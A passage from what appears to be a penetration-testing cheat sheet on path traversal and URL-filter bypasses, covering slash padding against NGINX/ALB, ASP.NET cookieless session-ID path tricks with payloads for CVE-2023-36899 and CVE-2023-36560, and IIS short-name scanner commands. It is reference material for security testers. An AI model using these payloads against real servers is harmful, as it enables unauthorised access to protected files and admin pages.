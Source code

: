 NGINX in certain configurations and ALB can block traversal attacks in the route, For example:
```http://nginx-server/../../``` will return a 400 bad request.

To bypass this behaviour just add forward slashes in front of the url:
```http://nginx-server////////../../```


### ASP NET Cookieless Bypass

When cookieless session state is enabled. Instead of relying on a cookie to identify the session, ASP.NET modifies the URL by embedding the Session ID directly into it.

For example, a typical URL might be transformed from: `http://example.com/page.aspx` to something like: `http://example.com/(S(lit3py55t21z5v55vlm25s55))/page.aspx`. The value within `(S(...))` is the Session ID. 


| .NET Version   | URI                        |
| -------------- | -------------------------- |
| V1.0, V1.1     | /(XXXXXXXX)/               |
| V2.0+          | /(S(XXXXXXXX))/            |
| V2.0+          | /(A(XXXXXXXX)F(YYYYYYYY))/ |
| V2.0+          | ...                        |


We can use this behavior to bypass filtered URLs.

* If your application is in the main folder
    ```ps1
    /(S(X))/
    /(Y(Z))/
    /(G(AAA-BBB)D(CCC=DDD)E(0-1))/
    /(S(X))/admin/(S(X))/main.aspx
    /(S(x))/b/(S(x))in/Navigator.dll
    ```

* If your application is in a subfolder
    ```ps1
    /MyApp/(S(X))/
    /admin/(S(X))/main.aspx
    /admin/Foobar/(S(X))/../(S(X))/main.aspx
    ```


| CVE            | Payload                                        |
| -------------- | ---------------------------------------------- |
| CVE-2023-36899 | /WebForm/(S(X))/prot/(S(X))ected/target1.aspx  |
| -              | /WebForm/(S(X))/b/(S(X))in/target2.aspx        |
| CVE-2023-36560 | /WebForm/pro/(S(X))tected/target1.aspx/(S(X))/ |
| -              | /WebForm/b/(S(X))in/target2.aspx/(S(X))/       |


### IIS Short Name

* [irsdl/IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)

```ps1
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/bin::$INDEX_ALLOCATION/'
java -jar ./iis_shortname_scanner.jar 20 8 'https://X.X.X.X/MyApp/bin::$INDEX_ALLOCATION/'
```
